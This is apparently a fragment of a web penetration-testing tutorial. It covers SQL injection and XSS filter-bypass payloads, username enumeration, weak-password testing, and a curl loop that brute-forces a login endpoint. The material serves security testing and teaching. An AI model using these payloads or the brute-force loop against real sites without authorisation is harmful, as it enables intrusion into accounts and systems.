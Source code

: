 ### Filter Bypass Techniques

**When basic payloads fail, try encoding and obfuscation:**

**SQL Injection bypasses:**
```
# Space filtering
SELECT/**/username/**/FROM/**/users
SELECT+username+FROM+users

# Keyword filtering
seLEct (mixed case)
CHAR(83)+CHAR(69)+CHAR(76) (character encoding)
```

**XSS bypasses:**
```
# When <script> is blocked
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<iframe src=javascript:alert(1)>
```

---

## Authentication Testing

### Understanding Authentication Flows

**Map the complete process:**
1. Login form submission
2. Session creation mechanism
3. Session validation on subsequent requests
4. Password reset functionality
5. Account lockout behavior

### Common Authentication Flaws

**Username enumeration:**
```
# Different error messages reveal valid usernames
Valid user: "Invalid password for john"
Invalid user: "User not found"
```

**Weak password policies:** Test with passwords like: admin, password, 123456, company_name123

**Missing rate limiting:**
```bash
# Brute force without delays
for i in {1..1000}; do
  curl -X POST /login -d "username=admin&password=pass$i"
done
```

